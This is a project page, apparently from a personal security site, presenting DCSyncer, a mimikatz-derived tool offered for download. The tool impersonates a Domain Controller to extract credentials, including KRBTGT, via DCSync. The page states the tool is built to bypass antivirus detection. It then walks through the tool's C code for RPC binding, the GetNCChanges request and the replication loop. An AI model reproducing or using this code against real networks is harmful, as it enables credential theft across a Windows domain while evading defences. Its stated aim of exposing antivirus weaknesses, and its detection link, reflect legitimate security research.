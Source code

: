 ```yaml
---
layout: page
title: DCSyncer
description: Tool derived from mimikatz that performs DCSync operation
github: https://github.com/notsoshant/DCSyncer
download: https://github.com/notsoshant/DCSyncer/releases/download/v1.0/DCSyncer-x64.exe
ext-js: https://buttons.github.io/buttons.js
---
```


[Follow @notsoshant](https://github.com/notsoshant){:class="github-button" data-size="large" aria-label="Follow @notsoshant"}
[notsoshant/DCSyncer]({{ page.github }}){:class="github-button" data-icon="octicon-repo-forked" data-size="large" aria-label="View notsoshant/DCSyncer on GitHub"}
[Download]({{ page.download }}){:class="github-button" data-icon="octicon-download" data-size="large" aria-label="Download notsoshant/DCSyncer on GitHub"}

DCSyncer is a tool that performs DCSync operation. DCSync is a method to extract credentials, including that of KRBTGT, from a remote system by simulating behavior of a Domain Controller. This method is very powerful as you don't need any command execution _on_ the Domain Controller. You also don't need to be a Domain Admin to perform this operation, you need a user with _Replicating Directory Changes_ and _Replicating Directory Changes All_ permissions. For more details on DCSync attack and its prevention, read [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729){:target="_blank"}.

<p align="center"><img src="/img/tools/dcsyncer/dcsyncer-1.png" /></p>

<p align="center"><img src="/img/tools/dcsyncer/dcsyncer-2.png" /></p>

## Mimikatz and need for DCSyncer

[Mimikatz](https://github.com/gentilkiwi/mimikatz){:target="_blank"} comes with capability to perform DCSync operation. [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py){:target="_blank"} can also perform this operation. Antivirus detection for these tools are strong. But AVs don't often do it right, most of the times they rely on some string or pattern matching that can be easily bypassed by recompiling the tool with few modifications.

Idea behind this tool was to show that we can't entirely rely on AVs to keep us secure. This is an attempt to extract only the code piece relevant to DCSync from mimikatz's huge, feature-rich codebase. This tool, though extracted from mimikatz, tries to avoid any reference to it so that it can bypass some well known AVs.

## Working

A DCSync operation uses [Directory Replication Service (DRS) Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) to simulate a Domain Controller. It uses the [`GetNCChanges`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) function to do so. DCSyncer uses code extracted mainly from [RPC](https://github.com/gentilkiwi/mimikatz/blob/master/modules/rpc/kull_m_rpc.c), [DRS](https://github.com/gentilkiwi/mimikatz/blob/master/modules/rpc/kull_m_rpc_drsr.c) and [MS-DRS](https://github.com/gentilkiwi/mimikatz/blob/master/modules/rpc/kull_m_rpc_ms-drsr_c.c) modules of mimikatz. The main DCSync function is replica of mimikatz's, but I've written it manually to understand each and every step involved in the process.

Let's dissect the main DCSync function to see how it works.

#### Get the Domain Info and the DC

```c
getCurrentDomainInfo(&pDomainInfo);
szDomain = pDomainInfo->DnsDomainName.Buffer;
PRINT_INFO(L"Domain would be %s\n", szDomain);

getDC(szDomain, DS_DIRECTORY_SERVICE_REQUIRED, &szDc);
PRINT_INFO(L"DC would be %s\n", szDc);
```

`getCurrentDomainInfo()` is calling [`LsaQueryInformationPolicy()`](https://docs.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-lsaqueryinformationpolicy) in background to get the `PolicyDnsDomainInformation` which retrieves DNS information. `getDc()` would use Domain extracted from DNS information and call [`DsGetDcName()`](https://docs.microsoft.com/en-us/windows/win32/api/dsgetdc/nf-dsgetdc-dsgetdcnamea) in to get the DC.

#### Create RPC Binding

```c
szService = L"ldap";
RtlGetNtVersionNumbers(&pMajor, &pMinor, &pBuild);

createBinding(NULL, L"ncacn_ip_tcp", szDc, NULL, szService, TRUE, (pMajor < 6) ? RPC_C_AUTHN_GSS_KERBEROS : RPC_C_AUTHN_GSS_NEGOTIATE, NULL, RPC_C_IMP_LEVEL_DEFAULT, &hBinding, RpcSecurityCallback);

getDomainAndUserInfos(&hBinding, szDc, szDomain, &getChReq.V8.uuidDsaObjDest, szUser, szGuid, &dsName.Guid, &DrsExtensionsInt);
```

`createBinding()` is taken from RPC module of mimikatz which will create a RPC bind to the DC. `getDomainAndUserInfos()` will first create a DRS handle using [`IDL_DRSBind()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/605b1ea1-9cdc-428f-ab7a-70120e020a3d) and then use [`IDL_DRSDomainControllerInfo()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/668abdc8-1db7-4104-9dea-feab05ff1736) and [`IDL_DRSCrackNames()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/9b4bfb44-6656-4404-bcc8-dc88111658b3) to retrieve information about DC.

#### Preparing for GetNCChanges

```c
getDCBind(&hBinding, &getChReq.V8.uuidDsaObjDest, &hDrs, &DrsExtensionsInt);

getChReq.V8.pNC = &dsName;
getChReq.V8.ulFlags = DRS_INIT_SYNC | DRS_WRIT_REP | DRS_NEVER_SYNCED | DRS_FULL_SYNC_NOW | DRS_SYNC_URGENT;
getChReq.V8.cMaxObjects = (allData ? 1000 : 1);
getChReq.V8.cMaxBytes = 0x00a00000; // 10M
getChReq.V8.ulExtendedOp = (allData ? 0 : EXOP_REPL_OBJ);
getChReq.V8.pPartialAttrSet = (PARTIAL_ATTR_VECTOR_V1_EXT*)MIDL_user_allocate(sizeof(PARTIAL_ATTR_VECTOR_V1_EXT) + sizeof(ATTRTYP) * ((allData ? ARRAYSIZE(dcsync_oids_export) : ARRAYSIZE(dcsync_oids)) - 1));
getChReq.V8.pPartialAttrSet->dwVersion = 1;
getChReq.V8.pPartialAttrSet->dwReserved1 = 0;

if (allData)
{
    getChReq.V8.pPartialAttrSet->cAttrs = ARRAYSIZE(dcsync_oids_export);
    for (i = 0; i < getChReq.V8.pPartialAttrSet->cAttrs; i++)
        MakeAttid(&getChReq.V8.PrefixTableDest, dcsync_oids_export[i], &getChReq.V8.pPartialAttrSet->rgPartialAttr[i], TRUE);
}
else
{
    getChReq.V8.pPartialAttrSet->cAttrs = ARRAYSIZE(dcsync_oids);
    for (i = 0; i < getChReq.V8.pPartialAttrSet->cAttrs; i++)
        MakeAttid(&getChReq.V8.PrefixTableDest, dcsync_oids[i], &getChReq.V8.pPartialAttrSet->rgPartialAttr[i], TRUE);
}
```

`getDCBind()` will call [`IDL_DRSBind()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/605b1ea1-9cdc-428f-ab7a-70120e020a3d) again, this time with UUID obtained from `getDomainAndUserInfos()` to create a handle that will be used by `GetNCChanges()`. Lines that follow are just setting up other parameters for the request message.

#### Calling GetNCChanges and decrypting response

```c
do
{
    RtlZeroMemory(&getChRep, sizeof(DRS_MSG_GETCHGREPLY));
    drsStatus = IDL_DRSGetNCChanges(hDrs, 8, &getChReq, &dwOutVersion, &getChRep);
    if (drsStatus == 0)
    {
        if (dwOutVersion == 6 && (allData || getChRep.V6.cNumObjects == 1))
        {
            if (ProcessGetNCChangesReply(&getChRep.V6.PrefixTableSrc, getChRep.V6.pObjects))
            {
                ...
            }
            else
            ...
        }
        ...
    }
}
while (getChRep.V6.fMoreData);
```

Finally, a call to [`IDL_DRSGetNCChanges()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894). Lines that follow are decrypting the response of this call and printing the output.

